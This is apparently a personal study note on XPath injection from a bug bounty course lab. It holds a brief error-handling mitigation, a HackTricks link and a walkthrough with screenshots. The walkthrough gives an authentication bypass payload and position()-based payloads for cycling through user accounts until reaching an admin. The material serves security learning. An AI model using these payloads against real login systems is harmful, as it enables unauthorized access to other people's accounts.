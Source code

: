 ```ad-info
5. **Error Handling:**
    
    - Avoid exposing detailed error messages to users, as these can provide insights into the structure of XPath queries.`
```


# HACKTRICKS

```ad-important
URL: [xpath-injection](https://book.hacktricks.xyz/pentesting-web/xpath-injection)
```



# XPATH AUTHENTICATION BYPASS

<iframe width="969" height="545" src="https://www.youtube.com/embed/xHfO2bgXNJs" title="Curso Bug Bounty  |  XPATH  Authentication Bypass - Capitulo 3-2" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>


As seen in the video, the lab has a xpath authentication bypass, it follows this payload:

`'or true() or '`

![](cybersecurity/images/Pasted%2520image%252020241010143247.png)
If we enter the payload, we've bypassed the login page:

![](cybersecurity/images/Pasted%2520image%252020241010143256.png)
### FIRST WAY
But we are not admin user, we need to keep trying payloads until we get it, for example, we can enumerate the positions of the user using:

`'or position()=1 or '`

![](cybersecurity/images/Pasted%2520image%252020241010143417.png)
If we pass in that payload, we will log in as the same user shown previously, but we can keep changing the `position()=` function until we get the user we desire:


`'or position()=2 or '`

![](cybersecurity/images/Pasted%2520image%252020241010143522.png)

![](cybersecurity/images/Pasted%2520image%252020241010143532.png)

`'or position()=3 or '`

![](cybersecurity/images/Pasted%2520image%252020241010143607.png)
![](cybersecurity/images/Pasted%2520image%252020241010143623.png)
